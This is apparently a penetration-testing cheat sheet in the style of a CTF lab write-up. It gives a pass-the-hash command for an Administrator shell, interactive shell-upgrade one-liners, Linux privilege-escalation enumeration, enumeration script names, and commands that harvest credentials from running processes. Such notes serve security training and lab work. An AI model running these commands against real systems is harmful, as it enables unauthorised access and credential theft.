 #### Pass the Hash

If hashes are obtained through some means then use psexec, smbexec and obtain the shell as Administrator

```bash
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe //TARGET_IP cmd
```

### Linux Privilege Escalation

#### TTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
```

#### Basic

```bash
find / -writable -type d 2>/dev/null
dpkg -l  #Installed applications on debian system
cat /etc/fstab  #Listing mounted drives
lsblk  #Listing all available drives
lsmod  #Listing loaded drivers
```

#### Automated Scripts

```
[linPEAS.sh](http://linPEAS.sh)
[LinEnum.sh](http://LinEnum.sh)
[linuxprivchecker.py](http://linuxprivchecker.py)
unix-privesc-check
Metasploit: multi/recon/local_exploit_suggester
```

#### Sensitive Information

```bash
cat .bashrc
env  #checking environment variables
watch -n 1 "ps -aux | grep pass"  #Harvesting active processes for credentials
#Process related information can also be obtained from PSPY
```

#### Sudo/SUID/Capabilities

💡 GTFOBins: [https://gtfobins.github.io/](https://gtfobins.github.io/)
